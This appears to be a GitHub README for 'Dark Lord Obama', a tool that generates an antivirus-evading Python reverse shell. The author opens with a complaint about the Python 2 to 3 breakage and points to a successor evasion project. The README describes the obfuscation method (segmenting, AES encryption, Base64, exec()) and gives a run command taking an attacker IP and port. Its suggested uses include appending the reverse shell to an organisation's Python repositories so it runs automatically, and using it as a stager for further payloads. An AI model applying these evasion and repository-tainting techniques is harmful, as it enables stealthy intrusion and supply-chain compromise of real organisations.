 # Dark Lord Obama will now be transitioned into Google Golang

The Python 2 to 3 transition was a clusterfuck, a atomic blast of breakage. [](https://lwn.net/Articles/843660/)

It pisses me off, because my code worked PERFECTLY. But now PyPi won't properly install dependencies required for this to work. Even manually installing PyCrypto will through errors.

And I am not a big fan of half-assed hacks to fix things that should have been supported via some sort of compatibility.

Everyone, please move on along to the successor of DarkLordObama, EXOCET-Antivirus-Evasion. [](https://github.com/tanc7/EXOCET-AV-Evasion)


![](https://xringarchery.files.wordpress.com/2019/07/obama-sith-lord.jpg)

# Dark Lord Obama - Undetectable Pythonic Payload Generator

Chang Tan Lister
Lister Unlimited Cybersecurity Solutions, LLC.
changtan@listerunlimited.com

![](https://xringarchery.files.wordpress.com/2019/07/a_undetectable_payload1.png)

DLO generates a Pythonic reverse shell that as of July 29th, 2019, is undetectable on VirusTotal. It combines multiple won't-to-be-disclosed techniques (undiscloseable in detail) including but not limited to:

1. "Command Segmentation"
2. "AES Encryption" with a 32-bit key and a 16-bit initialization vector
3. Base64 Encoding - It was a necessity
4. Inline Python exec() functions, C asm() functions (will be added soon), Java/Jython, Cython, Ctypes

# Dark Lord Obama Official Release Demo

*Please click this link for a demostration video of how to use*

<a href=https://encryptedarchives2.s3-us-west-1.amazonaws.com/darklordobamarelease.mp4>Demo Video</a>

# Suggested Uses

Currently you can, after you gain a foothold in organization

1. Run the payload standalone.
2. Replace the proof-of-concept code with a Metasploit python payload
3. Taint/corrupt Python repositories: Locate the Python code repositories of a organization during a pentest and then copy-paste the entire code and append it to the bottom of the python module, guarantee auto-execution of the reverse shell when the code runs
4. Use the payload as a stager to download additional payloads
5. Use the payload against MacOS (MacBooks, iMacs, etc). They natively run Python 2.7.1

Run it as ```python darklordobama.py <attacker IP> <attacker listening port>```

![](https://xringarchery.files.wordpress.com/2019/07/a_undetectable_payload2.png)

![](https://xringarchery.files.wordpress.com/2019/07/a_undetectable_payload5.png)

# How does it work?

# First it chops up your payload into two-character segments, "Command Segmentation)

![](https://encryptedarchives2.s3-us-west-1.amazonaws.com/Screenshot+from+2020-06-06+18-47-41.png)

# A ArrayMap is produced to allow the payload to reconstitute itself

![](https://encryptedarchives2.s3-us-west-1.amazonaws.com/Screenshot+from+2020-06-06+18-47-31.png)

# The payload is then shuffled into a list array and then encrypted with AES-128

![](https://encryptedarchives2.s3-us-west-1.amazonaws.com/Screenshot+from+2020-06-06+18-47-23.png)

# The encrypted payload is encoded in Base64 format

![](https://encryptedarchives2.s3-us-west-1.amazonaws.com/Screenshot+from+2020-06-06+18-47-14.png)

